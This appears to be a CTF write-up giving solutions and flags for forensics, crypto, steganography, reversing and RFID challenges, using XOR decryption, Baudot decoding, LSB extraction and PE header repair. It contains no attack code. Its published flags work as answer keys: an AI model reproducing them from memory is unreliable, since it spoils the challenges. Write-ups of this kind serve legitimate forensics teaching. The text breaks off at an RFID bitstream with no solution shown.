

It's an EWF (Expert Witness Format) file that contains image(s). The images have a flag located in the metadata field named Software.



Flag: `CSG_FLAG{M3trixM@ster}`

## F2: CryptedCoin (New Caledonia - F2: CryptedCoin)

### Description

A hacker is suspected of stealing cryptocurrency, but the wallet files and chat logs recovered from his PC leave unanswered questions.
Your mission is to recover the wallet's private key and identify the destination address.

### Solve

File: `F2.zip`

```txt
Permissions Size User Date Modified      Name
.rw-rw-rw-   825 kali 2025-09-01 14:02  chat_log.txt
.rwxrw-r--  2.1M kali 2025-10-25 18:47  F2.zip
.rw-rw-rw-  2.1M kali 2025-09-01 13:55  memory_dump.raw
.rw-rw-rw-   337 kali 2025-09-01 13:55  wallet.dat
```

**chat_log.txt**

```txt
[2025-08-17 23:41] H: Did you erase all traces of that transfer?
[2025-08-17 23:42] K: Wrapped wallet.dat with my own simple encryption. Not AES, just XOR.
[2025-08-17 23:42] H: The password? Don’t you dare forget it.
[2025-08-17 23:43] K: Same rule as always: “My favorite movie hero’s name + release date (YYYYMMDD) + a symbol.”
[2025-08-17 23:44] H: That one with the green rain?
[2025-08-17 23:45] K: Yep. And I didn’t leave any notes… though maybe the browser history still has it.
[2025-08-17 23:47] H: Did you prepare the image too?
[2025-08-17 23:47] K: Screenshot of the transfer screen. Nobody checks image metadata, lol.
[2025-08-17 23:48] H: By the way, I left KeePass open before shutting down. Is that okay?
[2025-08-17 23:49] K: Might still be in RAM. If someone digs it up, that’s just bad luck.
```

We now know from `chat_log.txt` that `wallet.dat` is encrypted using `XOR`, and `memory_dump.raw` is the RAM image in question.



Analyze it by filtering out the readable text and checking how many lines there are.

```txt
83 SHA256(passphrase)=8bd747e8a8b44487d29475d8c8bf76f546578e2ae1b8b47f524070281755d234
38 Note: XOR key is SHA-256(passphrase)
23 passphrase=Neo19990331!
```



In the file, there's a `WALLETXOR1` marker before the bytes, which we need to remove. After that, we'll `XOR` the remaining data with the key we obtained.

```py
from hashlib import sha256

passphrase = b"Neo19990331!"
file = "wallet.dat"

key = sha256(passphrase).digest()
blob = open(file, "rb").read()
cipher = blob.split(b"\n", 1)[1]
plain = bytes([b ^ key[i % len(key)] for i, b in enumerate(cipher)])

print(plain.decode('utf-8'))
```



Flag: `CSG_FLAG{crypt0_w4ll3t_forensics}`

---

# Crypto

## C5: A very old odd file (Central African Republic - A very old odd file)

### Description

Earlier communication and data transmission utilizes the telegraph system. It uses electrical signals over wires. The sender uses a telegraph key to interrupt the electrical current, which was then decoded at the receiving end. There are various encoding systems used in telegraph system and the most famous is the Morse code.

### Details

Old computer veteran from the days of cold war left nothing but a text file. It puzzles us as it contains just one sentence and some random characters. Will you help us to try to find his secret? Since we're so nice, we'll even give you a free hint! The flag value will CSG_FLAG{LOOK.SOMETHING.LIKE.THIS}

Find the flag by decoding the message

### Solve

File: `C6_a_very_old_odd_file.zip`

```txt
We lived in coded times when it was not easy and the rewere shades of grey and ambiguity
-...----..----.--.-.---..-.-.---.----.-.--..-..-.---...-.-.--.--.--.--..-.---...--.-..-------......---.--..-.....--.....--.----...-.-.-..--.---..-..----.---..----..--.....--.----..--.-.--.---.--.---......---..--.--.--.------.-.-.---..--....--.---.-.---...-.--...---.--.--..-.--.----.-.--..-..-.---...-.-.--.--.--.---...----..----.--.-.---..-.-.---.--..---.--.-..----..-.--.---.-.---...-.--...---.--.--..-.--.------.-.-.---..--....--.--..-.....--.....--.---..-.--..-.--.---..-.-..---.--.--.---...-.--.....---..-..-.---.-----..-.--.---.....----.--..-.---...--.-..-------......---.--..-.....--.....--.--..---.--.-..----..-.--.--.-..-----..----.--------.-.-.---.------.-.-.---..--....--.---..----..--.....--.----..--.-.--.----..-....----..-.-.---.---..----..--.....--.----..--.-.--.--..-.---...--.-..-------......---.--..--.----.-.-.-.------..-.--.---.---.-.---...-.--...---.--.--..-.--.-----..-.--.---.....----.---...----..----.--.-.---..-.-.---.------.-.-.---..--....--.--..-.....--.....--.--.-..-----..----.--------.-.-.---.----...-.-.-..--.---..-..----.---..----..--.....--.----..--.-.--.---...----..----.--.-.---..-.-.---.--.-.------..--.-..-.-----.--.--..-.....--.....--.---...----..----.--.-.---..-.-.---.-----..-.--.---.....----.---.-.---...-.--...---.--.--..-.--.---.--.---......---..--.--.--.----.-.--..-..-.---...-.-.--.--.--.--..-.....--.....--.-----..-.--.---.....----.---.-.---...-.--...---.--.--..-.--.------.-.-.---..--....--.--..-.....--.....--.---.--.---......---..--.--.--.------.-.-.---..--....--.-----..-.--.---.....----.---.--.---......---..--.--.--.--..-.....--.....--.---..----..--.....--.----..--.-.--.--..---.--.-..----..-.--.--.--..--..-.--.-.-.------..--.-...----.--..-.....--.....--.---...----..----.--.-.---..-.-.---.--.--.---...-.--.....---..-..-.---.--..---.--.-..----..-.--.----.-.--..-..-.---...-.-.--.--.--.----..-....----..-.-.---.---..----..--.....--.----..--.-.--.--..-.---...--.-..-------......---.--..--.----.-.-.-.------..-.--.---.---.-.---...-.--...---.--.--..-.--.-----..-.--.---.....----.---...----..----.--.-.---..-.-.---.------.-.-.---..--....---
```

It really looks like Morse code, doesn’t it? But no - it's actually Baudot. For an AI like ChatGPT, it can figure that out through multiple rounds of analysis in "thinking mode". By testing patterns, it can tell that instead of variable-length signals like Morse, the sequence uses fixed-length binary codes typical of Baudot. With enough attempts and comparisons, it can identify the structure correctly.



Start by replacing `-` with `0` and `.` with `1`, then split the sequence neatly into groups of 5 characters.



After that, use <https://cryptii.com> to decode it:

- Input: bytes, binary grouped by byte
- Decode: Baudot code → Baudot-Murray (ITA 2)
- Output: Text

```txt
CAESAR SIGURD GUSTAV . URBAN NIKLAS DAVID ERIK RUDOLF SIGURD CAESAR OLOF RUDOLF ERIK . FILIP LUDVIG ADAM GUSTAV . OLOF PETTER ERIK NIKLAS IVAR NIKLAS GUSTAV BERTIL RUDOLF ADAM CAESAR ERIK . PETTER URBAN NIKLAS CAESAR HELGE . CAESAR ADAM RUDOLF DAVID SIGURD . ADAM RUDOLF ERIK . DAVID ERIK ADAM DAVID . NIKLAS OLOF WILHELM . CAESAR LUDVIG OLOF SIGURD IVAR NIKLAS GUSTAV BERTIL RUDOLF ADAM CAESAR ERIK
```

It’s the Swedish Armed Forces radio alphabet.

Finally, you have two options: either continue decoding with Cryptii, or use Python to decode it however you prefer.



```py
# code = open("./C6_a_very_old_odd_file.txt", "r").read().split("\n")[1].strip()
# code = code.replace("-", "0").replace(".", "1")
# n = 5
# code = [(code[i:i + n]) for i in range(0, len(code), n)]
# print(" ".join(code))

# Swedish Armed Forces radio alphabet
# https://en.wikipedia.org/wiki/Swedish_Armed_Forces_radio_alphabet

# Edit: Cesar -> Caesar

_map = """
A Adam
B Bertil
C Caesar
D David
E Erik
F Filip
G Gustav
H Helge
I Ivar
J Johan
K Kalle
L Ludvig
M Martin
N Niklas
O Olof
P Petter
Q Qvintus
R Rudolf
S Sigurd
T Tore
U Urban
V Viktor
W Wilhelm
X Xerxes
Y Yngve
Z Zata
1 Ett
2 Tvaa
3 Trea
4 Fyra
5 Femma
6 Sexa
7 Sju
8 Atta
9 Nia
0 Nolla
"""
map = {(x:=i.split(" "))[1].upper():x[0] for i in _map.strip().split("\n")}
encode = open("./encode.txt", "r").read().strip()
text = "".join([map.get(i, "[ERROR]") if i != "." else "." for i in encode.split(" ")])
print(text)
```

```txt
CSG.UNDERSCORE.FLAG.OPENINGBRACE.PUNCH.CARDS.ARE.DEAD.NOW.CLOSINGBRACE
```

Flag: `CSG_FLAG{PUNCH.CARDS.ARE.DEAD.NOW}`

---

# Stegano

## Cat Tail (Peru - S1: Cat Tail)

### Description

It holds not one, but three hidden messages. The only clue we have is a note saying, “cats’ tails tell a lot.” Can you reveal the mystery and find all the flags?

Provided file (PNG): cat_tail.zip

### Notes

Flag format: CSG_FLAG{string} \
Author: kzm

### Solve

File: `cat_tail.zip`



This cat is quite fat, huh? - I mean the file.

This cat is divided into three parts (I mean the flag...)



The head is in the blue channel’s LSB.



The body is in the metadata.



The tail is at the end of the file.

Flag: `CSG_FLAG{T4bby_Wisp3rs_Myst3ri0us_C0d3s_w/_Tail}`

---

# Reversing

## Corrupted (Saudi Arabia - R1-Q1: Corrupted)

### Description

We found a suspicious executable, but it's clearly corrupted and won’t run. The file seems to have been tampered. Can you restore the file? The flag is obtained when you execute the restored executable (without any options).

File: corrupted.exe

### Notes

Flag format: CSG_FLAG{string} \
Author: kzm

### Solve

File: `corrupted.7z`




It's an exe file (Windows), but its signature has been corrupted.

[List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)





You can see that when comparing the hex headers between the chall file and a normal software file, the file signature is missing and some junk data has been added. What we need to do is remove that junk and restore the signature.



We need to remove the first 10 bytes and replace the file’s first byte with 0x4D.



Flag: `CSG_FLAG{finding_the_magic_now!}`

## Flag Encoder (Saudi Arabia - R1-Q2: Flag Encoder)

### Description

The restored executable turned out to be a flag encoder. We also found an encoded flag string as indicated below. This string was generated by this flag encoder based on the correct flag. Can you recover the flag?

Encoded flag string: `lBaY4gCyygnZ3YFweaCbCfnGm1JcSiNpzE8mjZGCcRA=` \
Repaired File in previous challenge “Corrupted”: repaired.zip

### Notes

Flag format: CSG_FLAG{string} \
Author: kzm

### Solve

File: `repaired.7z`







```txt
entry > __scrt_common_main_seh > FUN_00401280 > FUN_00401180
```



`FUN_00401000` is custom base64 encoder function.

From the functions we traced leading to the main runtime routine, we found an XOR encryption followed by a custom Base64 encoding before the output is displayed.

So, all we need to do is use CyberChef to decode it with the key we obtained.

Base64 Alphabet: `CatS4vesTh3WorldbcfgijkmnpquwxyzABDEFGHIJKLMNOPQRUVXYZ01256789+/=` \
XOR Key: `yC3NvR8qNHynjusu`



Flag: `CSG_FLAG{c0rrect_fl4g_sh0wn9354}`

---

# OT

## OT1: Decode the RFID Tag (South Sudan - Decode the RFID Tag)

### Description

You and your team have been chosen for a top-secret mission - The Cryptographic RFID Challenge. Your objective is to decipher the hidden cryptographic RFID data found in the provided bitstream. The information is presented in binary format, and your success will be proven by submitting the flag in the required format: CSG_FLAG{decoded data}.

### Details

You will be provided with a text file named 'rawbits.txt' containing the technical specifications. Decipher the binary data in to get the flag. Submit the flag using the format CSG_FLAG{decoded_data} to track your progress.

What is the decoded data?

### Solve

File: `C5_rawbits.txt`

```txt
Technical Specifications:
Using Clock:64
Invert:0
Bits Found:625

Encoding:
ASK/Manchester - Clock: 64

Decoded bitstream:
0000111010111001
1001000011111011
1101110011101111
0011111111111001
0000111010111001
1001000011111011
1101110011101111
0011111111111001
0000111010111001
1001000011111011
1101110011101111
0011111111111001
0000111010111001
1001000011111011
1101110011101111
0011111111111001
0000111010111001
1001000011111011
1101110011101111
0011111111111001
0000111010111001
1001000011111011
1101110011101111
0011111111111001
0000111010111001
1001000011111011
1101110011101111
0011111111111001
0000111010111001
1001000011111011
1101110011101111
0011111111111001
```

